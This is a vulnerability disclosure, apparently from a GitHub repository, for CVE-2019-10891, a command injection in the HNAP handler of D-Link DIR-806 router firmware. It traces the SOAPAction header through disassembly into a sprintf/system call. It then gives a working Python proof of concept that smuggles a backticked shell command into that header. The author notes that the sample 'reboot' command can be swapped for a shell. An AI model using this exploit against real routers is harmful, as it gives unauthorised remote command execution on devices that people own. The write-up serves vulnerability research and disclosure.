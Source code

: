 **CVE-2019-10891**
The fireware is the lasted version of DIR-806 in D-LINK website：
```
http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-806 
```
## Vulnerability Analyze
When the router get the request of HNAP, it will call the hnap_main() function in /htdocs/cgibin,then it get SOAPAction by getenv :
```
.text:00411FAC                 la      $a0, aHttp_authoriza  # "HTTP_AUTHORIZATION"
.text:00411FB0                 lui     $a0, 0x42  # 'B'
.text:00411FB4                 lw      $gp, 0x248+var_230($sp)
.text:00411FB8                 la      $a0, aHttp_soapactio  # "HTTP_SOAPACTION"
.text:00411FBC                 la      $t9, getenv
.text:00411FC0                 jalr    $t9 ; getenv
.text:00411FC4                 move    $s2, $v0
.text:00411FC8                 lui     $a0, 0x42  # 'B'
.text:00411FCC                 lw      $gp, 0x248+var_230($sp)
.text:00411FD0                 la      $a0, aRequest_method  # "REQUEST_METHOD"
.text:00411FD4                 la      $t9, getenv
```
then it will check the SOAPAction start with `http://purenetworks.com/HNAP1/GetDeviceSettings`:
```
.text:00411FF0                 la      $t9, strstr
.text:00411FF4                 la      $a1, aHttpPurenetwor  # "http://purenetworks.com/HNAP1/GetDevice"...
.text:00411FF8                 jalr    $t9 ; strstr
.text:00411FFC                 move    $a0, $s0         # haystack
.text:00412000                 lw      $gp, 0x248+var_230($sp)
.text:00412004                 bnez    $v0, loc_412044
```
then the function will get the string in SOAPAction that after the right "/" by strrchr:
```
.text:00412044                 la      $t9, strrchr
.text:00412048                 move    $a0, $s0         # s
.text:0041204C                 jalr    $t9 ; strrchr
.text:00412050                 li      $a1, 0x2F  # '/'  # c
.text:00412054                 lw      $gp, 0x248+var_230($sp)
.text:00412058                 bnez    $v0, loc_412080
```
finally it will call sprintf to make a shell and call system to run it：
```
.text:00412420                 move    $a0, $s4
.text:00412424                 la      $a2, aVarRun_0   # "/var/run/"
.text:00412428                 b       loc_412440
.text:0041242C                 la      $a1, aShSS_shDevCons  # "sh %s%s.sh > /dev/console"
.text:00412430  # ---------------------------------------------------------------------------
.text:00412430
.text:00412430 loc_412430:                              # CODE XREF: hnap_main+4C4↑j
.text:00412430                 lui     $a1, 0x42  # 'B'
.text:00412434                 move    $a0, $s4         # s
.text:00412438                 addiu   $a2, (aVarRun_0 - 0x420000)  # "/var/run/"
.text:0041243C                 la      $a1, aShSS_shDevCo_0  # "sh %s%s.sh > /dev/console &"
.text:00412440
.text:00412440 loc_412440:                              # CODE XREF: hnap_main+4D8↑j
.text:00412440                 jalr    $t9 ; sprintf
.text:00412444                 move    $a3, $s0
.text:00412448                 lw      $gp, 0x248+var_230($sp)
.text:0041244C                 la      $t9, system
.text:00412450                 jalr    $t9 ; system
```
so when we make a fake SOAPAction start with `http://purenetworks.com/HNAP1/GetDeviceSettings` and end with `/our cmd`,it will finally execv our cmd in system function
## POC
```
from pwn import *
import requests
import sys

data="<?xml version=\"1.0\" encoding=\"UTF-8\"?>\
<soap:Envelope xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\" xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\" xmlns:soap=\"http://schemas.xmlsoap.org/soap/envelope/\" soap:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">\
  <soap:Body>\
    <GetWanSettings xmlns=\"http://purenetworks.com/HNAP1/\">\
    </GetWanSettings>\
  </soap:Body>\
</soap:Envelope>"

if __name__=="__main__":
    cmd="reboot" #the shell you want execv,it can't include "/"
    fake_cmd="http://purenetworks.com/HNAP1/GetDeviceSettings/`%s`"  %cmd
    print fake_cmd
    header = {
        'SOAPAction' : fake_cmd,
        'Cookie'        : "uid=LS32Srlx8N",
        'Content-Type'  : 'text/xml',
        'Content-Length': str(len(data))
        }
    url="http://192.168.0.1/HNAP1/"
    r=requests.post(url=url,headers=header,data=data)
    print r.content
    log.info("Kirin-say PWN")
```
when you run this poc,it will reboot the router(DIR-806),and you can also edit the cmd you want to run to get shell or something else.
For example(I run the fireware in firm dyne and run its web server,when I run the POC,the router reboot successfully)
![Success](https://upload-images.jianshu.io/upload_images/7434375-62cf44267ffd84b5.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
